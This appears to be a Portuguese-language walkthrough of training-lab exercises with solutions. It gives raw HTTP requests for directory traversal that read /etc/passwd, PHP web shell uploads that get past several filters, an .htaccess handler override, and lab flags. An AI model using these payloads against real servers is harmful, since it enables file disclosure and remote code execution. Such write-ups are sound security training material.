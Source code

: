# Exercises

## Directory traversal

### >> 1. File path traversal, simple case
Crie uma requisição GET contendo o caminho do arquivo a ser lido
````http
GET /image?filename=../../../etc/passwd HTTP/1.1
Host: ac611f7c1ebca4cec0b52379003e009f.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 2. File path traversal, traversal sequences blocked with absolute path bypass
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=/etc/passwd HTTP/1.1
Host: ac601f011f09bc6dc05120b5004a00fa.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 3. File path traversal, traversal sequences stripped non-recursively
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=....//....//....//....//etc//passwd HTTP/1.1
Host: acb91f041e530947c0f6088a004200cf.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 4. File path traversal, traversal sequences stripped with superfluous URL-decode
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=..%252f..%252f..%252fetc%252fpasswd HTTP/1.1
Host: ace71f641fb2b647c042061a009f000c.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 5. File path traversal, validation of start of path
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/1.1
Host: ac161f371e40f5e0c054e80a00050088.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 6. File path traversal, validation of file extension with null byte bypass
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=../../../etc/passwd%00.jpg HTTP/1.1
Host: ac491fa91eae86f5c0c5043900fb008a.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````



## File upload vulnerabilities 

### >> 1. Remote code execution via web shell upload
Crie um arqvuio com o conteudo:
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````
Submeta o arquivo via upload de imagens e acesse o arquivo submetido através do link informado.

`Flag: 0sehBXVzLAZHtNFAuMJmIlFDR3UGAx5s`

### >> 2. Web shell upload via Content-Type restriction bypass
Crie um arquivo com o conteudo:
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````
Submeta o arquivo via upload de imagens 

Encaminhe a request para repeater e altera o header de:

````http
------WebKitFormBoundarySAtt4ZPtNsBRhSWY
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: application/octet-stream

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

````http
------WebKitFormBoundarySAtt4ZPtNsBRhSWY
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: image/jpeg

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

e acesse o arquivo submetido através do link informado.

`Flag: iiVfQK3LlDuvm0uskl9M2nHoeSEX4JrA`

### >> 3. Web shell upload via path traversal
Crie um arquivo com o conteudo
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

Submeta o arquivo para upload e acesse pelo navegador
````http

------WebKitFormBoundarywl7b3A4o80gjAjZb
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fwebshell2.php"
Content-Type: image/png

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
------WebKitFormBoundarywl7b3A4o80gjAjZb
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarywl7b3A4o80gjAjZb
Content-Disposition: form-data; name="csrf"

D3cLNSSIkUUvvKdxO0LsCy8ryg6CxhH7
------WebKitFormBoundarywl7b3A4o80gjAjZb--
````

`Flag: XkJTTpCMVsexpPb2EkLhZpRnuIhc7D1h`

### >> 4. Web shell upload via extension blacklist bypass

Crie um arquivo .htaccess com permissao de execucao php para shtml
````apache
<Files *.shtml>
ForceType application/x-httpd-php
</Files>
````

Crie um arquivo webshell
````php
<?php echo file_get_contents('/home/carlos/secret'); ?>
````

````htttp
------WebKitFormBoundarye3lspOAogkMjAhO7
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

<Files *.shtml>
ForceType application/x-httpd-php
</Files>
------WebKitFormBoundarye3lspOAogkMjAhO7
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarye3lspOAogkMjAhO7
Content-Disposition: form-data; name="csrf"

t4wvyamnWaFWHez4TJd9SQxZUXxYSLI6
------WebKitFormBoundarye3lspOAogkMjAhO7--
````

````http
------WebKitFormBoundaryid3hJcJV3tX9G7VB
Content-Disposition: form-data; name="avatar"; filename="webshell.shtml"
Content-Type: image/png

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
------WebKitFormBoundaryid3hJcJV3tX9G7VB
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryid3hJcJV3tX9G7VB
Content-Disposition: form-data; name="csrf"

t4wvyamnWaFWHez4TJd9SQxZUXxYSLI6
------WebKitFormBoundaryid3hJcJV3tX9G7VB--
````

### >> 5. Web shell upload via obfuscated file extension

Crie uma requisição com o nome do arquivo modificado para atender os requisitos
````http
------WebKitFormBoundary2NUJ0mu3fL0Qhb2U
Content-Disposition: form-data; name="avatar"; filename="webshell.php%00.png"
Content-Type: application/octet-stream

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
------WebKitFormBoundary2NUJ0mu3fL0Qhb2U
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary2NUJ0mu3fL0Qhb2U
Content-Disposition: form-data; name="csrf"

Ra1gXgVnwyebhHPsi3FWWSNBfY14epng
------WebKitFormBoundary2NUJ0mu3fL0Qhb2U--
````
